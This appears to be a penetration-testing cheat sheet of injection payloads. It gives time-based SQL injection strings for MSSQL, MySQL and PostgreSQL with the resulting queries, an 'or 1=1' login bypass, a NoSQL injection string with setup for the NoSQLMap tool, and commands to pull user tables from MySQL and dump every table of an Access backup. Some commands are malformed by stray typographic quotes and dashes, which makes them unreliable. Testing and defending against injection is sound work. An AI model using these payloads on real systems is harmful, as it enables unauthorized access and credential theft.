 ##### Mysql Queries: 30s delay to MSSQL, MYSQL, POSTGRESQL
```
# Original Query
SELECT * FROM products WHERE name='Test';
```

##### Injection values
```
# MSSQL
'; WAITFOR DELAY '00:00:30';

# MYSQL
'-SLEEP(30);

# POSTGRESQL
'; SELECT pg_sleep(30);
```

##### Resulting queries
```sql
# MSSQL
SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30';

# MYSQL
SELECT * FROM products WHERE name='Test'-SLEEP(30);

# POSTGRESQL
SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30);
```

##### Grab password hashes from mysqldb called –if you have MySQL root username & password
```bash
mysql -u root -p -h $ip use "Users" show tables; select \* from users; 
```
##### Authentication Bypass
```bash
name='wronguser' or 1=1; name='wronguser' or 1=1 LIMIT 1;
```

##### NoSQL
```bash
git clone https://github.com/codingo/NoSQLMap.git 
pip install couchdb; pip install pbkdf2; pip install ipcalc 
python nosqlmap.py
a'; return this.a != 'BadData’'; var dummy=‘!`
```

##### Mdbtools
```bash
mdb-sql backup.mdb
list table; go
mdb-tables backup.mdb
for i in $(mdb-tables backup.mdb); do mdb-export backup.mdb $i > tables/$i; done
wc –l  *| sort –n # ignore one liners
cat auth_user # table
```
